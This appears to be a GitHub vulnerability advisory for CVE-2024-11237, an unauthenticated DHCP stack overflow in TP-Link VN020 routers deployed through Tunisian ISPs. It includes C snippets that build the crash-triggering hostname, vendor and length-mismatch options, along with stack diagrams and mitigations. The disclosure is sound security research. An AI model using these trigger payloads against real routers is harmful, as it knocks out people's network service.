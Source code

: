 # TP-Link VN020 DHCP Memory Corruption (CVE-2024-11237)
## Critical Vulnerability in DHCP Packet Processing

### Overview
A critical vulnerability has been discovered in TP-Link VN020 F3v(T) routers running firmware version TT_V6.2.1021. The vulnerability allows remote attackers to trigger a stack-based buffer overflow through specially crafted DHCP DISCOVER packets, leading to denial of service (DoS) conditions.

**Affected Devices:**
- Router Model: TP-Link VN020-F3v(T)
- Firmware Version: TT_V6.2.1021
- Deployment: Primarily through Tunisie Telecom and Topnet ISPs
- Confirmed Variants: Also affects Algerian and Moroccan versions

> **Important Note:** Due to the proprietary nature of the firmware, the exact internal implementation details are unknown. This analysis is based on observed behavior and black-box testing.

### Vulnerability Details
- **CVE ID**: [CVE-2024-11237](https://www.cve.org/CVERecord?id=CVE-2024-11237)
- **Type**: Stack-based Buffer Overflow (CWE-121)
- **Attack Vector**: Remote (DHCP DISCOVER Packet)
- **Authentication**: None Required
- **Port**: UDP/67 (DHCP Server)
- **Impact**: DoS (Confirmed) & RCE (Possible)
- **Complexity**: Low

### Technical Analysis

#### DHCP Packet Structure
```
[Basic DHCP Header]
0x00: 01        ; BOOTREQUEST
0x01: 01        ; Hardware type (Ethernet)
0x02: 06        ; Hardware address length
0x03: 00        ; Hops
0x04-0x07: XID  ; Random transaction ID
0x08-0x09: 0000 ; Seconds elapsed
0x0A-0x0B: 8000 ; Flags (Broadcast)
0x0C-0x1F: 0000 ; Client/Server/Gateway IPs
0x20-0x28: MAC  ; Client hardware address
0x29-0x2C: 0000 ; Padding
```

#### Exploitation Vectors

1. **DHCP Hostname Processing**
```c
// Overflow trigger through hostname option
unsigned char long_hostname[128];
memset(long_hostname, 'A', sizeof(long_hostname) - 1);
long_hostname[127] = '\0';
add_option(packet, offset, 0x0C, 127, long_hostname);
```

2. **Vendor-Specific Option**
```c
// Vendor option manipulation
unsigned char vendor_specific[] = { 
    0x00, 0x14, 0x22,  // TP-Link vendor prefix
    0xFF, 0xFF, 0xFF   // Trigger condition
};
add_option(packet, offset, 0x2B, sizeof(vendor_specific), vendor_specific);
```

3. **Length Field Manipulation**
```c
// Claimed vs actual length mismatch
add_option(packet, offset, 0x3D, 0xFF, (unsigned char[]) { 0x01 });
```

### Potential Memory Corruption
While the exact internal implementation is unknown, the observed behavior suggests potential memory corruption issues:

**Normal DHCP Hostname Processing**
```
Stack Layout (Normal Case)
+------------------------+ Higher addresses
|     Previous Frame     |
+------------------------+
|   Return Address (4)   |
+------------------------+
|    Saved EBP (4)       |
+------------------------+
|                        |
|   Hostname Buffer      |
|      (64 bytes)        |
|                        |
+------------------------+ Lower addresses
|    Other Variables     |
+------------------------+
```

**What could potentially be happening inside the router?**
```
Stack Layout (Overflow Case)
+------------------------+ Higher addresses
|     Previous Frame     |
+------------------------+
|   Overwritten Return   | 
+------------------------+
|   Overwritten EBP      | <- Unknown state corruption
+------------------------+
|     Overflow Data      | <- 127 bytes of 'A'
|         ...            |
+------------------------+ Lower addresses
|    Other Variables     | <- Potentially corrupted
+------------------------+
```
This is theoretical, and certain details may not be entirely accurate, as TP-Link provides the firmware for this router exclusively to ISPs.

#### Video Demonstration
https://github.com/user-attachments/assets/ed897aed-540e-4ad8-8f70-788b264036bd

https://github.com/user-attachments/assets/46c6a5f0-c693-4a68-acbb-058fd1113fb6

Router may also try to restart it self as shown here due to the crash as shown here: 

https://github.com/user-attachments/assets/0e2d2905-74ac-4829-b127-538f2d159d0d

### Observed Impact
- Immediate device unresponsiveness
- DHCP service failure
- Automatic router restart
- Network disruption requiring manual intervention

### Timeline
- **Initial Discovery**: October 20, 2024
- **Vendor Notification**: November 3, 2024
- **CVE Assignment**: November 15, 2024


### Mitigation
No official patch is currently available. Temporary mitigations include:
1. Disable DHCP server if not required
2. Implement DHCP traffic filtering at network edge
3. Consider alternative router models if possible

### References
1. [CVE-2024-11237](https://www.cve.org/CVERecord?id=CVE-2024-11237)
2. [CWE-121: Stack-based Buffer Overflow](https://cwe.mitre.org/data/definitions/121.html)

### Researcher
**Mohamed Maatallah**
- GitHub: [@Zephkek](https://github.com/Zephkek)
- Affiliation: Independent Security Researcher

